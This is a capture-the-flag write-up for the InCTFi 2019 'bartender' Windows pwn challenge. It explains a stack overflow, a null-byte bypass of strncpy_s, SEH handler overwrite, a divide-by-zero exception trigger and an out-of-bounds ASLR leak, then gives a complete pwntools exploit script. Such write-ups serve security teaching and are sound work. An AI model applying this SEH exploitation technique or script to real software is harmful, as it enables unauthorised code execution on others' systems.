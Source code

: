 ```yaml
---
title: bartender - InCTF Internationals 2019
date: 2019-10-11 16:45:33
tags: 
  - InCTFi
  - Windows
  - Pwn
categories:
  - Pwn
  - Windows
---
```

Writeup from InCTFi 2019 bartender
Windows 32-bit SEH exploitation

<!--more-->

**Category:** Pwn
**Challenge Points:** 1000 
**Solves:** 1


The challenge is a 32-bit windows executable. This is a simple windows exploiation challenge based on the Structured Exception Handling. Download the files [here](https://gitlab.com/maheshhari/pwn/tree/master/InCTFi2019/bartender)

# Write-up

```
PS D:\Downloads\Win_BE\bartender> .\bartender.exe
Welcome!! Hope you have a good time
What would you like
        1. Make a drink
        2. Look at menu
        3. Change a drink
        4. Serve drinks
        5. Add an Ingredient
        6. Leave bar
Enter your choice :
```

A `setting.xml` was given with the handout
```xml
<?xml version="1.0" encoding="UTF-8"?>
<MitigationPolicy>
  <SystemConfig>
    <SEHOP Enable="false" TelemetryOnly="false" />
  </SystemConfig>
  <AppConfig Executable="C:\Users\Public\bartender\bartender.exe">
    <SEHOP Enable="false" TelemetryOnly="false" />
  </AppConfig>
</MitigationPolicy>
```
This file was given to inform that SEHOP was disabled in remote Windows server.

This is a menu driven program, you can create a drink, modify a drink and so on. The drinks and ingredients are stored as an global array.
```c
struct ingredient{
	char *name;
	DWORD key;
};

struct drink{
	char *name;
	DWORD value;
};

struct ingredient shelf[LEN];
struct drink *drinks[LEN];
```
When you make a drink, you get to add ingredients with a key that is a unique and prime number. The ingredient->key of all the ingredients you select are multiplied to from drink->value. Since the keys are prime numbers, the ingredients can be indentified by checking if the value is completely divisible by the key.

You can also see that a `catFlag` function is given to make exploitation easy.

##### Vulnerabilities
- `Stack Bufferoverflow` in the `add Ingredient` function.
- `Out of Bounds` read in `make drink` functionality.

##### Exploitaiton
First thing you would notice is the `stack bufferflow` that can be seen in the `add ingredient` option. You cannot exploit this bug by straightaway as stack cookies are enabled and also the main function doesn't return as it is an while loop that terminates only when `exit` is called. 

Also when you are overflowing, a stack buffer overrun error is returned in the `addIngredient` function call. This is because `strncpy_s` is used to copy name of the ingredient to heap.
```c
errno_t strncpy_s(
   char *strDest,
   size_t numberOfElements,
   const char *strSource,
   size_t count
);
```
`strncpy_s` checks if the len of the src is greater than the count. Check out the [docs for strncpy_s](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strncpy-s-strncpy-s-l-wcsncpy-s-wcsncpy-s-l-mbsncpy-s-mbsncpy-s-l?view=vs-2019) to know more.
To bypass this, all you have to do is put a `\x00` in your exploit, such that the the len of the src is less than count.
You are able to overwrite the SEH handler with this overflow now, but you still have to trigger an exception to redirect to execution flow to overwritten handler.

`/SAFESEH:NO` compiler flag is also enabled, you check this by looking for the `__safe_seh_table` which will not be present if safeSEH is disabled. If enabled, the last two bytes of the exception handlers in the exception chain are stored in the table, and validity is checked before a exception call.

There is a `division by zero` bug in the `change drink` functionality when you give 0 as an option when removing an ingredient. You can use this bug to trigger the overwritten exception handler.

Now all you have to do is overwrite the SEH handler with address of `catFlag`.
`ASLR` is enabled though. In Windows ASLR randomizes the image base everytime it is loaded into memory and this includes the executable image. You can use the .data section `out of bound` read vulnerability in the `make drink` functionality. The  index read from the user is not validated. When you select an ingredient the key of that indredient->key([ingredient+4]) is used to form the drink->value. Provide an index such that the address+4 points to a image address. This address gets multiplied with drink->value and hence the image leak is obtained.

Finally you can overwrite the SE handler with `catFlag` and trigger the exception to get the flag.

```python
from pwn import *

bin_path = "./bartender.exe"
s=process(bin_path)
#s=remote("34.207.98.167",1414)

def trigger():
    s.recvuntil("Enter your choice : ")
    s.sendline(str(3))
    s.recvuntil("Which drink do you want to change :")
    s.sendline(str(0))
    s.recvuntil("What change : ")
    s.sendline(str(2))
    s.recvuntil("Select the ingredients to remove : ")
    s.sendline(str(0))

def setup(exploit):
    s.recvuntil("Enter your choice : ")
    s.sendline(str(5))
    s.recvuntil("Enter the name of the ingredient :")
    s.send(exploit)
    s.recvuntil("Enter your choice : ")
    s.sendline(str(1))
    s.recvuntil("Enter Drink name : ")
    s.sendline("Rum N Cola ")
    s.recvuntil("Select the ingredients :")
    s.sendline(str(1))
    s.recvuntil("Select the ingredients :")
    s.sendline(str(99))

def leak_base():
    s.recvuntil("Enter your choice : ")
    s.sendline(str(1))
    s.recvuntil("Enter Drink name : ")
    s.sendline("base ")
    s.recvuntil("Select the ingredients : ")
    s.sendline(str(int("0xfffffdb5",16)))
    s.recvuntil("Current price = ")
    base = int(s.recvline())-8472
    log.info("base = " + hex(base))
    s.recvuntil("Select the ingredients :")
    s.sendline(str(99))
    return base


base=leak_base()
catFlag=base+4544
exploit = p32(0x42424242)*4 + "\x01" + "c"*0x4c + "d"*3 + p32(catFlag) + "a"*4
setup(exploit)
trigger()
s.interactive()
```
